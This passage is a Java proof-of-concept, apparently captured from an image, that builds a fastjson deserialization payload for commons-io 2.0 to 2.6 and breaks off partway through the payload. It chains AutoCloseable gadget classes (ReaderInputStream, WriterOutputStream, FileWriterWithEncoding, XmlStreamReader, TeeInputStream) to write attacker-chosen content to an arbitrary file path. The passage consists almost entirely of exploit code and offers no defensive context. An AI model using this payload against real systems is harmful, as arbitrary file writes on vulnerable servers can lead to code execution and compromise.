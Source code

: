 ```java
//commons-io 2.0 - 2.6 版本：
String code = "FLAG{THIS_IS_A_flAT_THAT_You_REALLY_waNT!!!}";
int length = code.length();
for (int i = 0; i <= 8192 - length ; i++) {
    code += " ";
}
String poc4 = "{\n" +
        "  \"x\":{\n" +
        "    \"@type\":\"com.alibaba.fastjson.JSONObject\",\n" +
        "    \"input\":{\n" +
        "      \"@type\":\"java.lang.AutoCloseable\",\n" +
        "      \"@type\":\"org.apache.commons.io.input.ReaderInputStream\",\n" +
        "      \"reader\":{\n" +
        "        \"@type\":\"org.apache.commons.io.input.CharSequenceReader\",\n" +
        "        \"charSequence\":{\"@type\":\"java.lang.String\"\"" + code +"\"\n" +
        "      },\n" +
        "      \"charsetName\":\"UTF-8\",\n" +
        "      \"bufferSize\":1024\n" +
        "    },\n" +
        "    \"branch\":{\n" +
        "      \"@type\":\"java.lang.AutoCloseable\",\n" +
        "      \"@type\":\"org.apache.commons.io.output.WriterOutputStream\",\n" +
        "      \"writer\":{\n" +
        "        \"@type\":\"org.apache.commons.io.output.FileWriterWithEncoding\",\n" +
        "        \"file\":\"e:/aaa.txt\",\n" +
        "        \"encoding\":\"UTF-8\",\n" +
        "        \"append\": false\n" +
        "      },\n" +
        "      \"charsetName\":\"UTF-8\",\n" +
        "      \"bufferSize\": 1024,\n" +
        "      \"writeImmediately\": true\n" +
        "    },\n" +
        "    \"trigger\":{\n" +
        "      \"@type\":\"java.lang.AutoCloseable\",\n" +
        "      \"@type\":\"org.apache.commons.io.input.XmlStreamReader\",\n" +
        "      \"is\":{\n" +
        "        \"@type\":\"org.apache.commons.io.input.TeeInputStream\",\n" +
        "        \"input\":{\n" +
        "          \"$ref\":\"$.input\"\n" +
        "        },\n" +
        "        \"branch\":{\n" +
        "          \"$ref\":\"$.branch\"\n" +
        "        },\n" +
        "        \"closeBranch\": true\n" +
        "      },\n" +
        "      \"httpContentType\":\"text/xml\",\n" +
        "      \"lenient\":false,\n" +
        "      \"defaultEncoding\":\"UTF-8\"\n" +
        "    },\n" +
        "    \"trigger2\":{\n" +
        "      \"@type\":\"java.lang.AutoCloseable\",\n" +
        "      \"@type\":\"org.apache.commons.io.input.XmlStreamReader\",\n" +
        "      \"is\":{\n" +
        "        \"@type\":\"org.apache.commons.io.input.TeeInputStream\",\n" +
        "        \"input\":{\n" +
        "          \"$ref\":\"$.input\"\n" +
        "        },\n" +
        "        \"branch\":{\n" +
        "          \"$ref\":\"$.branch\"\n" +
        "        },\n" +
        "        \"closeBranch\": true\n" +
        "      },\n" +
        "      \"httpContentType\":\"text/xml\",\n" +
```